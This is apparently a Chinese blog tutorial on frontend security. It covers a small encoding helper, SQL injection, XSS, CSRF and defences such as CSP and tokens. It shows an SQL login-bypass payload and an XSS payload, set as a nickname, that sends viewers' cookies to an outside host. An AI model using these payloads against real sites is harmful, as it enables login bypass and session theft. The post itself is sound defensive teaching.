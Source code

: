 ```yaml
---
title: 前端安全
date: 2018-01-25 19:11:25
tags: [xss, crsf]
categories: 安全
---
```


# <font color="#aaf">safetools 的使用方式</font>

[demo](http://h5.test.jimistore.com/base/xss)

1. 引用 js 包（内容很少，也可以将内容拷贝出来，直接引用方法）
2. 将需要提交的数据经过 filter 即可，如下：

```
浏览器自带转换为字符串
var newValue = safetools.encode(value)

正则加密（可能有兼容）
var newValue = safetools.reEncode(value)

正则解密（可能有兼容）
var newValue = safetools.reDecode(value)
```

> tag: 前端交互，涉及到数据流动并需要在返回在页面上显示的，一定要经过后端！

<br>


# <font color="#aaf">常见的攻击手段</font>
## <font color="#0af">1. SQL 脚本注入攻击于与防御</font>

### 概念
> 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的SQL Injection，即SQL注入.

### 场景
语句
```
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果恶意填入：
> userName = "1' OR '1'='1"; passWord = "1' OR '1'='1";

既可实现无密码登录，美滋滋吧...

### 处理方式
前端和 XSS 处理类似，对传递的数据进行筛选，重点是后端对数据的处理！

## <font color="#0af">2. XSS 攻击与防御</font>

### 概念
> <font color="green">跨站脚本</font>（Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。
XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

### 类型
#### 简单分类
1. 反射型xss
<br>通过一次 xss 请求，将数据渲染到页面，请求 -> 返回数据，例子：搜索
2. 储存型xss
<br>通过一次 xss 请求，直接将数据储存在数据库，下次调用无需继续请求，例如：评论

#### 复杂分类
1. client 型
2. server 型

### 处理方式
* 编码
> 将 > ( 标签转换为字符串，可以处理大多数 xss 攻击

* 过滤
> 有的语句并不完全依赖<>标签，例如src="javascript:alert(1);"

* 校正
> 这个照理来说应该后端处理，目前没碰到这种场景
```
> 一个直播平台，用户可以进入观看，主播可以设置自己的昵称:
var starNickName = '${starNickname}'
```
这怕是要翻水水了...假设是我是主播，我把昵称设置为：
```
';window.location.href="http//:blog.jzxer.cn/?cook=" + document.cookie + '&url=' window.location.href;''
```
这一串如果传到后端，而后端又没有校正的话的话，这怕是傻眼了...观众进来一个死一个，我应该也会进去蹲几天吧，吧。。。
* CSP
```
在头部加入：

<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```
meta：不信任任何URL，即不加载任何资源样式表只信任 cdn.example.org 和 third-party.org 框架 (frame) 必须使用HTTPS协议加载 其他资源：没有限制 启用后，不符合 CSP 的外部资源就会被阻止加载。
> 注意：该属性目前比较新，hotfix 和 chorme 支持较好，并不适用于所有的浏览器。

## <font color="#0af">3. CSRF</font> 
> <span style="color:green;">跨站请求伪造</span>（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。
                                                                                                       
### 处理方式

* 验证码
在请求的同时，带个token,或者验证码

* Referer Check
这个可以伪造...但加入更保险

> 注意：如果网站有XSS漏洞或者一些跨域漏洞，可能导致Token泄露。 在XSS攻击下，读取Token值，然后再构造出一个合法的请求，可以称为：XSRF。

## 小结
web 安全是个需要长期坚持的事情，没有绝对安全的产品，我们需要做到的就是能够提前预防和及时修复。
